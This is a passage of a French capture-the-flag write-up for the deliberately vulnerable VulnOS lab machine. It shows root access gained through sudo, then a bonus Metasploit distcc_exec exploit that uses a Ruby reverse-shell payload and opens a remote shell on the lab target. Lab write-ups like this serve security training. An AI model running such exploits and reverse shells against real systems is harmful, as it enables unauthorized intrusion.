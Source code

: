 ```plain

vulnosadmin@VulnOS:~$ sudo su
root@VulnOS:/home/vulnosadmin# id
uid=0(root) gid=0(root) groepen=0(root)
root@VulnOS:/home/vulnosadmin# cd /root/
root@VulnOS:~# ls
hello.txt
root@VulnOS:~# cat hello.txt 
Hello,

So you got root... You still need to find the rest of the vulnerabilities inside the OS !

TRY HARDER !!!!!!!
```

Pwned  

Cadeau bonux
------------

Alternativement il est possible d'exploiter le distcc (un serveur de compilation) présent sur le système :  

```plain
msf exploit(distcc_exec) > show options

Module options (exploit/unix/misc/distcc_exec):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.1.29     yes       The target address
   RPORT  3632             yes       The target port

Payload options (cmd/unix/reverse_ruby):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.3      yes       The listen address
   LPORT  4444             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   Automatic Target

msf exploit(distcc_exec) > exploit

[*] Started reverse handler on 192.168.1.3:4444 
[*] Command shell session 1 opened (192.168.1.3:4444 -> 192.168.1.29:49089) at 2014-05-29 10:08:28 +0200

id
uid=104(distccd) gid=65534(nogroup) groups=65534(nogroup)
```
